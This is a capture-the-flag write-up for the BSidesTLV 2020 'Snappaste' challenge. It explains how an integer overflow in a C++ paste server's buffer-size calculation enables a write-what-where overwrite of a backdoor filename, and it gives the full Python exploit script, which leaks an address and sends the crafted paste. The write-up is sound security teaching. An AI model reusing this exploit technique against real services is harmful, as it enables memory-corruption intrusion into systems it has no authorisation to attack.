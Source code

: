 # Snappaste (Part 1) Writeup

First thing we did was observing the packets in packet capture software (for example Fiddler) and build a script to create valid packets.

**Python script to reproduce a paste request:**

```python
import requests
import struct
import zlib

url = 'https://snappaste.ctf.bsidestlv.com/'
paste_url = url + 'paste'
view_url = url + 'view/'
backdoor_url = url + 'backdoor/'

metadata = b'{"name": "alex","date":"2020-06-28T15:52:21.519Z"}'
data_decompressed = 'this is my data'
data_compressed = zlib.compress(data_decompressed)
metadata_size = len(metadata)
data_compressed_size = len(data_compressed)
data_decompressed_size = len(data_decompressed)

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
```

We created a local environment by compiling the C++ code for easier testing procedure.

Tried to find vulnerability in C++ code. Even when sizes were tampered the program worked correctly because the allocation was made according to the size given.

Our final goal is to get into the next `if` statement:

```python
// TODO: remove after testing
		if (name == backdoor_filename) {
			std::cout << "printing flag" << std::endl;
			content += readfile("./flag");
		}
```

Because C++ is doing that specific compare by value (and not by reference), we need to overwrite the buffer: 

```python
// TODO: remove after testing
char backdoor_filename[17];
```

We can leak its address using the `/backdoor` API, so we only need Write-What-Where primitive, and overwrite it with our random generated file name.

We can spot an Integer Overflow vulnerability in the next line:

```python
dword num_bytes = header->metadata_size + header->data_decompressed_size + sizeof(PASTE_RECEIVED);
```

After trying many combinations, the next one worked for us:

- First we are doing a regular paste.
- We are leaking the `backdoor_filename` address using `/backdoor` API.
- Creating a new paste with the next parameters:
    - `metadata = <previous_name>`
    - `metadata_size = 16`
    - `data_decompressed = <leaked_backdoor_pointer>`
    - `data_compressed_size  = len(zlib(data_decompressed))`
    - `data_decompressed_size = 0xFFFFFFF8`
- This creates allocation of size 48.
- So line: `int result = uncompress(paste_received->data, &dest_len, data, header->data_compressed_size);` will overwrite the `paste_received->metadata` pointer with `backdoor_filename` address.
- And finally, line `memcpy(paste_received->metadata, metadata, header->metadata_size);` will overwrite the global variable with our random name.
- Flag: `BSidesTLV2020{$0metimes-jUst-4dding-tw0-nuMber$-g3ts-y0u-iN-tr0ub13s}`
Full exploit source code:

```python
import requests
import struct
import zlib

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# url = 'http://127.0.0.1:8080/'
url = 'https://snappaste.ctf.bsidestlv.com/'
paste_url = url + 'paste'
view_url = url + 'view/'
backdoor_url = url + 'backdoor/'

# NORMAL PASTE REQUEST
metadata = b'{"name": "alex","date":"2020-06-28T15:52:21.519Z"}'
data_decompressed = b'this is normal'
data_compressed = zlib.compress(data_decompressed)
metadata_size = len(metadata)
data_compressed_size = len(data_compressed)
data_decompressed_size = len(data_decompressed)

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
random_name = r.content
print(f'Pasted with random name: {random_name}')

# BACKDOOR REQUEST
r = requests.get(f'{backdoor_url}{r.content.decode("ascii")}', data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
leaked_ptr = int(r.content.split(b' ')[1], 16)
print(f'Leaked ptr: {hex(leaked_ptr)}')

# VULNERABLE PASTE REQUEST
metadata = random_name
data_decompressed = struct.pack('<Q', leaked_ptr)
data_compressed = zlib.compress(data_decompressed)
metadata_size = len(metadata)
data_compressed_size = len(data_compressed)
data_decompressed_size = 0xFFFFFFF8

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
print(f'Made vulnerable paste. Next one is viewing flag.')

r = requests.get(view_url + random_name.decode('ascii'), verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
```
